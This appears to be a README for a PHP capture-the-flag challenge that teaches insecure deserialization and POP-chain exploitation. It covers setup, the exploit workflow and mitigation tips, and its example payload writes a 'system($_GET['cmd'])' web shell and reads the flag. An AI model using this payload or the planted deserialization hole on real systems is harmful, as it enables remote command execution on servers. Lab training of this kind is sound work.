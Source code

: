 # CobraLogs: Admin Backdoor CTF Challenge

## Overview
CobraLogs is a logging application designed to demonstrate the concept of PHP insecure deserialization and property-oriented programming (POP) chain exploits. The application allows users to export their activity logs in a serialized format, which can be manipulated to execute arbitrary commands on the server.

## Project Structure
```
cobralogs-ctf
├── public
│   ├── index.php
│   └── export_logs.php
├── lib
│   └── AdminBackdoor.php
├── logs
├── Dockerfile
└── README.md
```

## Setup Instructions
1. **Clone the Repository**
   ```
   git clone <repository-url>
   cd cobralogs-ctf
   ```

2. **Build the Docker Image**
   ```
   sudo docker build -t cobralogs-ctf .
   ```

3. **Run the Docker Container**
   ```
   sudo docker run -d -p 80:80 cobralogs-ctf
   ```

4. **Access the Application**
   Open your web browser and navigate to `http://localhost`.

## Challenge Details
### Title: CobraLogs: Admin Backdoor
- **Category**: Web Exploitation
- **Difficulty**: Medium-Hard

### Description
The application allows users to export their logs in a serialized format. However, it is vulnerable to insecure deserialization, allowing an attacker to craft a malicious payload that can execute arbitrary commands on the server.

### Exploit Workflow
1. **Discover the Hidden Class**: The application uses PHP's `unserialize()` function without validation, allowing for the exploitation of the `AdminBackdoor` class.
2. **Craft a Payload**: Create a serialized object that includes a `Logger` object to write a web shell and an `AdminBackdoor` object to execute commands.
3. **Send the Payload**: Use a tool like `curl` to send the crafted payload to the `export_logs.php` endpoint.

### Example Payload
```php
$logger = new Logger();
$logger->filename = "/var/www/html/shell.php";
$logger->content = "<?php system(\$_GET['cmd']); ?>";

$backdoor = new AdminBackdoor();
$backdoor->cmd = "cat /flag > /var/www/html/flag.txt";

$payload = [$logger, $backdoor];
echo base64_encode(serialize($payload));
```

## Mitigation Tips
- Avoid using `unserialize()` on user input.
- Use safer alternatives like `json_encode()` and `json_decode()`.
- Implement strict validation and sanitization of user inputs.

## License
This project is for educational purposes only. Use it responsibly and ethically.
